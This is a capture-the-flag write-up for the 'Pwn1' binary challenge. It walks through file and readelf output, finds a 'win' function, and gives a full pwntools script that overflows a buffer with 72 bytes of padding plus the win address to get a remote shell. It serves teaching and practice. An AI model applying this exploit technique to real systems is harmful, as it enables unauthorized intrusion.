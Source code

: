 # Pwn1 Binary Exploitation Challenge Writeup

## Introduction

The "Pwn1" challenge is a binary exploitation challenge that requires exploiting a vulnerable binary to gain a remote shell. In this writeup, we'll walk through the process of solving the challenge step by step. The challenge binary, named `pwn1` was hosted on the server `challs.n00bzunit3d.xyz` on port `35932`. We'll use a Python script with the help of the `pwntools` library to automate the exploitation process.

## Step 1: Understanding the Challenge

After downloading the `pwn1` binary, the first step is to understand its properties. We can use the `file` command to check the file type and get information about the binary. When we run the command `file pwn1`, the output shows: 
```
pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=717cbfc0edae70e649c90cc5c40173e1a092d141, for GNU/Linux 3.2.0, not stripped
```

This output tells us that the `pwn1` binary is an ELF 64-bit LSB executable, specifically for the x86-64 architecture. It is dynamically linked and uses the `/lib64/ld-linux-x86-64.so.2` interpreter. The BuildID is a unique identifier for the binary. The binary was built for GNU/Linux 3.2.0 and is not stripped, which means the symbols and debugging information are still present.

## Step 2: Checking Symbols

To gain further insights into the binary, we can check the symbols using the `readelf` command. By running `readelf --symbols pwn1`, we can examine the symbol table of the binary and look for any relevant functions or symbols. In this case, we find the `win` function.

```
Symbol table '.dynsym' contains 10 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND _[...]@GLIBC_2.34 (2)
     2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.2.5 (3)
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (3)
     4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fgets@GLIBC_2.2.5 (3)
     5: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
     6: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (3)
     7: 0000000000404060     8 OBJECT  GLOBAL DEFAULT   26 [...]@GLIBC_2.2.5 (3)
     8: 0000000000404070     8 OBJECT  GLOBAL DEFAULT   26 stdin@GLIBC_2.2.5 (3)
     9: 0000000000404080     8 OBJECT  GLOBAL DEFAULT   26 [...]@GLIBC_2.2.5 (3)

Symbol table '.symtab' contains 42 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS crt1.o
     2: 000000000040038c    32 OBJECT  LOCAL  DEFAULT    4 __abi_tag
     3: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS crtstuff.c
     4: 00000000004010f0     0 FUNC    LOCAL  DEFAULT   15 deregister_tm_clones
     5: 0000000000401120     0 FUNC    LOCAL  DEFAULT   15 register_tm_clones
     6: 0000000000401160     0 FUNC    LOCAL  DEFAULT   15 __do_global_dtors_aux
     7: 0000000000404088     1 OBJECT  LOCAL  DEFAULT   26 completed.0
     8: 0000000000403e18     0 OBJECT  LOCAL  DEFAULT   21 __do_global_dtor[...]
     9: 0000000000401190     0 FUNC    LOCAL  DEFAULT   15 frame_dummy
    10: 0000000000403e10     0 OBJECT  LOCAL  DEFAULT   20 __frame_dummy_in[...]
    11: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS chall.c
    12: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS crtstuff.c
    13: 0000000000402160     0 OBJECT  LOCAL  DEFAULT   19 __FRAME_END__
    14: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS 
    15: 0000000000403e20     0 OBJECT  LOCAL  DEFAULT   22 _DYNAMIC
    16: 0000000000402038     0 NOTYPE  LOCAL  DEFAULT   18 __GNU_EH_FRAME_HDR
    17: 0000000000404000     0 OBJECT  LOCAL  DEFAULT   24 _GLOBAL_OFFSET_TABLE_
    18: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_mai[...]
    19: 0000000000404060     8 OBJECT  GLOBAL DEFAULT   26 stdout@GLIBC_2.2.5
    20: 0000000000404038     0 NOTYPE  WEAK   DEFAULT   25 data_start
    21: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.2.5
    22: 0000000000404070     8 OBJECT  GLOBAL DEFAULT   26 stdin@GLIBC_2.2.5
    23: 0000000000404048     0 NOTYPE  GLOBAL DEFAULT   25 _edata
    24: 0000000000401268     0 FUNC    GLOBAL HIDDEN    16 _fini
    25: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND system@GLIBC_2.2.5
    26: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fgets@GLIBC_2.2.5
    27: 0000000000404038     0 NOTYPE  GLOBAL DEFAULT   25 __data_start
    28: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    29: 0000000000404040     0 OBJECT  GLOBAL HIDDEN    25 __dso_handle
    30: 0000000000402000     4 OBJECT  GLOBAL DEFAULT   17 _IO_stdin_used
    31: 0000000000401196   101 FUNC    GLOBAL DEFAULT   15 init
    32: 000000000040124a    27 FUNC    GLOBAL DEFAULT   15 win         <<<------ Here We found the Win function
    33: 0000000000404090     0 NOTYPE  GLOBAL DEFAULT   26 _end
    34: 00000000004010e0     5 FUNC    GLOBAL HIDDEN    15 _dl_relocate_sta[...]
    35: 00000000004010b0    38 FUNC    GLOBAL DEFAULT   15 _start
    36: 0000000000404048     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
    37: 00000000004011fb    79 FUNC    GLOBAL DEFAULT   15 main
    38: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@GLIBC_2.2.5
    39: 0000000000404048     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
    40: 0000000000401000     0 FUNC    GLOBAL HIDDEN    12 _init
    41: 0000000000404080     8 OBJECT  GLOBAL DEFAULT   26 stderr@GLIBC_2.2.5
```

## Step 3: Making the Binary Executable

Before we can run the `pwn1` binary, we need to make it executable. We can do this by running the command `chmod +x pwn1`. This grants execute permissions to the binary, allowing us to run it.

## Step 4: Setting Up the Exploit Script

To automate the exploitation process, we'll use the `pwntools` library. We start by importing the necessary modules and setting up the exploit environment in our Python script. The script defines the target server and port, as well as the path to the "pwn1" binary on the local machine.
Here is the Final Exploit Script:
```py
#!usr/bin/env/python3

from pwn import *
import sys
import warnings

warnings.filterwarnings(action='ignore',category=BytesWarning)
context.log_level = "DEBUG"

server = sys.argv[1]
port = sys.argv[2]
elf = ELF("./pwn1")
garbage = b"A"*72

rip = p64(elf.symbols['win'])

payload = garbage + rip	



p = remote(server,port)

p.recvline()
p.sendline(payload)
p.interactive()
```
## Step 5: Analyzing the Binary

Before exploiting the binary, it's important to understand its structure and identify any vulnerabilities. We can use the `pwn` module's `ELF` class to extract information about the binary. By loading the "pwn1" binary into an `ELF` object, we gain access to various attributes, such as symbols and addresses.

## Step 6: Preparing the Payload

The next step is to construct the payload that will trigger the vulnerability in the binary. In this case, the vulnerability is a buffer overflow. The payload consists of two parts: garbage data and the target address to overwrite the return address. We calculate the address of the "win" function using `elf.symbols['win']` and pack it into a little-endian representation using `p64()`.

## Step 7: Connecting to the Remote Server

With our payload ready, we establish a connection to the remote server using the `remote(server, port)` function from `pwntools`. This allows us to communicate with the binary running on the server. We assume that the binary is already running and waiting for input.

## Step 8: Exploiting the Binary

Once the connection is established, we interact with the binary. We receive the initial prompt from the binary using `p.recvline()` to clear the initial output. Then, we send our payload to the binary using `p.sendline(payload)`. This triggers the buffer overflow and overwrites the return address with the address of the "win" function.

## Step 9: Gaining Remote Shell Access

After sending the payload, we call `p.interactive()` to gain interactive access to the remote shell. This allows us to interact with the shell as if we were directly connected to it. At this point, we have successfully exploited the binary and gained a remote shell.

## Conclusion

In this writeup, we walked through the process of solving the "Pwn1" binary exploitation challenge. We checked the file type of the `pwn1` binary using the `file` command and explained the output. We then used the `readelf` command to examine the symbols in the binary, looking for the presence of the `win` function. We made the binary executable with `chmod +x` and continued with the Python script for exploitation. By analyzing the binary, identifying the vulnerability, and constructing a payload, we successfully exploited the binary and gained a remote shell. Binary exploitation challenges like this one require a solid understanding of memory management, assembly, and vulnerability analysis, making them an exciting and challenging field in cybersecurity.




